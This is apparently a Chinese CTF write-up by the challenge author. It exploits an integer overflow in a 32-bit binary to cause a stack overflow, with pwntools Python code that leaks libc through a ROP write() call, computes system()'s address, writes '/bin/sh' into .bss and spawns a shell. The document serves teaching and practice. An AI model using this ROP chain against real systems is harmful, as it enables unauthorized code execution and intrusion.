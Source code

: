 
## checksec

检查发现是32bit程序，有NX，没有canary

## Vuln

1. 仔细分析程序，可以发现有整数溢出
2. 整数溢出之后可以构成栈溢出


## Leak
在输入负数之后，我们可以输入很打的字符串，从而造成栈溢出
### rop

再构成溢出之后采用rop的方式泄露栈地址<br>
可以找libc_csu_init等rop(用ropper找很方便)


```Python
def ro_gadget(func, arg1, arg2, arg3, ret_addr):
    payload = p32(func)
    payload += p32(pops_addr)
    payload += p32(arg1)
    payload += p32(arg2)
    payload += p32(arg3)
    payload += p32(ret_addr)*4
    payload += p32(pops_addr)
    payload += p32(ret_addr)*7
    payload += p32(ret_addr)
    return payload
```

写了一个方便leak的函数<br>
```Python

def leak(address):
    io.recvuntil("bytes you need")
    io.sendline(str(-1))
    io.recvuntil("Leave your code for the first time :)")
    payload = padding
    payload += ro_gadget(elf.plt['write'], 1, address, 40, vuln_addr)
    io.sendline(payload)
    io.recvuntil("the TE!\n")
    data = io.recv(4)
    return data
```
改函数最后返回到main函数，方便之后可以再利用一次

## exp
写exp有很多方法，如virtualprotect或者mmap来过NX，或者直接rop system执行shell<br>
这里只用的rop system

### calculate system

计算很简单，libc给了(如果没有给libc，可以利用pwntools的dynelf或者字节写leak来泄露需要的函数地址)<br>
```Python
read_addr = u32(leak(elf.got['read']))
print 'read address:', hex(read_addr)
libc_addr = read_addr - 0xD5980
print 'libc address:', hex(libc_addr)
system_addr = libc_addr + 0x3ADA0
print 'system address:', hex(system_addr)
```

### write "/bin/sh"
想要调用类似system("/bin/sh")这样的rop，还需要找一个地址有"/bin/sh"这样的字符串，当然直接再libc找是可以的。<br>
这里采用调用read函数把字符串写入bss段，然后直接指定写进的地址即可。<br>

```Python
io.sendline(str(-1))
io.recvuntil("Leave your code for the first time :)")
payload = padding
payload += ro_gadget(elf.plt['read'], 0, bss_w_addr, 8, vuln_addr)
raw_input("got?")
io.sendline(payload)
io.recvuntil("the TE!\n")
io.send('/bin/sh\x00')
```
至此即可写入了 "/bin/sh"

### system
system的地址之前已经计算了，而且这个时候binsh也写如了bss段，直接一个rop即可

```Python
payload = padding
payload += p32(system_addr)
payload += p32(vuln_addr)
payload += p32(bss_w_addr)
io.recvuntil("bytes you need")
io.sendline(str(-1))
io.recvuntil("Leave your code for the first time :)")
io.sendline(payload)
io.interactive()
```

## Summary

主要考察一个整数溢出漏洞<br>
其次是基础的rop的编写(32bit，64bit的类似)<br>

本来预计这个题有人做出来的，，/(ㄒoㄒ)/~~，没想到没一个人做。。顺便吐槽一下，为啥我出的题都没有人做出来，(╯‵□′)╯︵┻━┻。
